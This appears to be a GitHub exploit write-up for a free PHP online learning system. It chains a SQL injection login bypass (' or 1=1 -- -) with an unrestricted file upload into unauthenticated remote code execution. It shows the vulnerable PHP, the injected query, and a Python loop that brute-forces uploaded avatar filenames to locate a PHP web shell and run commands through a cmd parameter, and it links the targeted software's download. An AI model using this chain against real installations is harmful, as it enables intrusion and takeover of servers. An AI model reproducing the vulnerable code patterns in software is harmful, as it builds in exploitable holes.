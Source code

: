 # online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Exploit title : online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Vendor Homepage : https://github.com/oretnom23  / https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
* Software Link : https://www.sourcecodester.com/sites/default/files/download/oretnom23/elearning_v2_0.zip
## Sql injection authentication bypass
* the attacker can bypass admin login from by submitting sql qurey in the username paramater : 
* before the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
* after the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username'' or 1=1 -- -' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
it doesn't matter if username supplied is exsists or not the most important thing is the booleon injection (or 1=1) it will return true and let us login without supllying password
everything after this qurey (or 1=1 -- -) will be ignored bc of the comment (-- -)
## file upload
```php
		$save = $this->conn->query($sql);
		if($save){
			if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
					$ext = explode('.', $_FILES['img']['name']);
					$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
					if(is_file('../'.$fname))
						unlink('../'.$fname);
					$move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
					if($move){
						$this->conn->query("UPDATE students set avatar = '$fname' where id = $id ");
					}
			}
			$this->settings->set_flashdata('success'," Subject Successfully saved.");
			return 1;
```
* as you see the php code above there is no extenction validation or mime type or magic byte validation you can upload your php malicious directly
* also the script upload your php file to this directory /uploads/ and rename it to 'Favatar_' + the id  + extenction 
```php
$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
```
* i made simple for loop to bruteforce the id check the python script above
```python
		for i in range(0,rangee):
			try:
				with requests.get(url + "/uploads/Favatar_" + str(i) + ".php?cmd=whoami",allow_redirects=False) as response3:
					if "nikmok" in response3.text and response3.status_code == 200:
						print("\n" + Fore.GREEN + "[+] shell found : " + response3.url +"\n")
						break
						with open("shell.txt",mode="w+") as writer:
							writer.write(response3.url)
					else:
						print( Fore.RED + "[-] shell not found : " + response3.url)
			except requests.HTTPError as exception2:
				print("[-] HTTP Error : {0} ".format(exception2))
```
## RCE ?! : 
* with two these crafted vulnerbilities we can gain remote command exection
## POC
* check the python script above
* ![Alt text](https://github.com/DjebbarAnon/online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE/blob/main/poc3.PNG?raw=true "POC2")
* ![Alt text](https://github.com/DjebbarAnon/online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE/blob/main/poc2.PNG?raw=true "POC1")


